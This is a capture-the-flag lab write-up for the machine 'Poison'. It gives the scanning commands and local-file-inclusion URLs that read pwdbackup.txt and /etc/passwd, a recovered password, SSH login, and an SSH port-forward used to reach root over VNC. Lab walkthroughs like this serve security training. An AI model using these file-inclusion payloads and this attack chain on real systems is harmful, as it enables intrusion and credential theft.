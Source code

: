 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** is interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## 1.Method:
+ Let's crack the base64 encoding of **pwdbackup.txt**

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Second Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ Get the password of decoded form as `Charix!2#4%6&8(0`
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The user should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

## 2.Method:  
+ Find where the log files are located.
```
http://10.10.10.84/browse.php?file=/usr/local/etc/apache24/httpd.conf
```

## Privilege Escalation:
+ Transfer **secret.zip** to your kali attack vm.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no useful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ec32bc7-b10c-47d6-82ee-cab8ceaf8898)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ Lists ports: `netstat -an`
+ 5801 and 5901 are VNC ports for remote desktop access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fb6bd861-6308-44b7-b9f7-787ccd94b1d9)

+ List process of vnc: `ps -auwwx | grep vnc`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87501dde-45a3-4f89-a68a-8618111014a6)

+ Since VNC is a graphical user interface software, we can’t access it through our target machine.
+ We need port forwarding.
+ Run on your kali attack machine with previous password `Charix!2#4%6&8(0`: `ssh -L 7777:127.0.0.1:5901 charix@10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b07e577-d046-4075-9d07-93c93ddf8bff)

+ Verify that the command is working:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/473a6f5a-8495-474c-b2d1-dcb9984a49cb)

+ Connect to VNC with previous transferred and decompressed **secret** file on the attack machine: `vncviewer 127.0.0.1:7777 -passwd secret`
+ Get the VNC connection with root privileges, and view the root.txt file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/556d55dc-b294-4080-9030-42426a5bb802)




# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ 
